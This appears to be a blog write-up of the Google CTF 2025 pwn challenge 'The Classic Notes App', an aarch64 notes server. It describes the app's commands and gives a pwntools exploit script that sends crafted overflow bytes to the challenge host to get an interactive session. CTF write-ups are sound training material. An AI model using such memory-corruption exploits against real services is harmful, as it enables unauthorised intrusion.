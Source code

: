 ```yaml
---
title: Google CTF 2025 Writeup | PWN - The Classic Notes App
slug: googlectf25-the-classic-notes-app
author: Utkarsh M
date: '2025-07-16'
description: "Writeup and solution for the Google CTF 2025 - The Classic Notes App challenge."
categories:
  - CTFs
tags:
  - write up
  - web
  - ctf
  - google
  - googlectf
  - reverse engineering
  - pwn
  - re
  - vm
image: /assets/img/ctf/googlectf25/the-classic-notes-app.png
---
```


### Challenge Details

> RC's notebook server. RC does not care about memory safety because *** protects him!<br>
> Author: RC, roguebantha


Connection string: `the-classic-notes-app.2025.ctfcompetition.com 1337`

files: `ctf.c, Dockerfile, nsjail.cfg, qemu-aarch64`

-------------------

## Application

It's a simple note-taking application built for the aarch64 architecture running through QEMU on the challenge server.

You can interact with it using commands like:

```sh
Give me your command:
R 1    
Note at 1: World!
Give me your command:
C 3
Give me your command:
W 2 0 3ABC
Give me your command:
R 2
Note at 2: ABC�
Give me your command:
```

## Solving the challenges

The following image illustrates the solution process for the challenge in detail.

![](/assets/img/ctf/googlectf25/the-classic-notes-app.png)

## solution

```py
import pwn

while True:
    try:
        t = pwn.remote('the-classic-notes-app.2025.ctfcompetition.com', 1337)
        t.timeout = None
        t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 1 32 2' + b'\xa0\x02')
        k = t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 0 0 4' + b'exit')
        t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 0 50 100'+ b'\xAA'*100)
        print(k)
        t.interactive()
        break
    except EOFError:
        try:
            t.close()
        except Exception:
            pass
        continue
```

[Github Gist ](https://gist.github.com/Utkar5hM/6606ed6bbde5e3729a13b7f8a778c2e6)

## Obtaining the flag

![](/assets/img/ctf/googlectf25/the-classic-notes-app-2.png)